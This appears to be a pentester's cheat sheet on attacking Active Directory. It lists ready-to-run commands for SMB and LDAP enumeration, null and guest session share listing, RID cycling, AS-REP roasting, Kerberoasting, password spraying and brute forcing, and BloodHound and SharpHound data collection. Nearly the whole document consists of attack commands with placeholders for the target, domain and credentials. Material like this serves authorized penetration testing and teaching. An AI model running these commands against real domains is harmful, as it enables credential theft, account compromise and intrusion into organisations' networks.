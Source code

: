 ```yaml
---
icon: windows
---
```


# Active Directory

## AD Enumeration

### Basic Recon

```sh
netexec smb <target>
enum4linux -a <target>
nmap -n -sV --script "ldap* and not brute" -p 389 <target>
```

### Shares

```bash
# null session
netexec smb <IP> -u '' -p '' --shares
# guest
netexec smb <IP> -u 'guest' -p '' --shares
```

### User Enumeration

```bash
kerbrute userenum -d <domain> [--dc <target>] users.txt
```

```bash
netexec smb <target> [-u 'guest' -p ''] --users
rpcdump.py [[domain/]guest:@]<target>
```

RID Cycling

```bash
netexec smb [-u 'guest' -p ''] --rid-brute <target>
lookupsid.py [-no-pass] [[domain/]guest:@]<target>
```

### AS-REP Roast

With a valid username list

```bash
GetNPUsers.py -no-pass -usersfile valid_users.txt <domain>/
```

With valid credentials

```sh
GetNPUsers.py '<domain>/<user>:<password>' -request
netexec ldap <target> -u '<user>' -p '<password>' --asreproast asreproast.txt
```

### Kerberoast

{% hint style="danger" %}
If you find this error from Linux: `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` it's because of your local time, you need to synchronise the host with the DC. There are a few options:

```bash
ntpdate <target>
rdate -n <target>
```
{% endhint %}

```bash
GetUserSPNs.py -request [-dc-ip <target>] <domain>/<user>:<password>
netexec ldap <target> -u '<user>' -p '<password>' --kerberoasting kerberoasting.txt
```

### Password Spraying / Brute Forcing

Password spraying

```sh
netexec smb <target> -u valid_users.txt -p '<password>'
kerbrute passwordspray -d <domain> [--dc <target>] valid_users.txt '<password>'
```

Brute forcing

```bash
netexec smb <target> -u valid_users.txt -p passwords.txt
kerbrute bruteuser -d <domain> [--dc <target>] passwords.txt '<user>'
```

### BloodHound

#### BloodHound Python

```sh
# legacy
bloodhound-python -d '<domain>' -u '<user>' -p '<password>' [-ns '<nameserver>'] -c All --zip
# community edition
bloodhound-ce-python -d '<domain>' -u '<user>' -p '<password>' [-ns '<nameserver>'] -c All --zip
```

#### Netexec

```sh
netexec ldap <target> -u '<user>' -p '<password>' --bloodhound -c All
```

#### SharpHound

> https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
# exe
.\SharpHound.exe -CollectionMethods All
# ps1
. .\SharpHound.ps1; Invoke-BloodHound -CollectionMethods All -OutputDirectory .
```
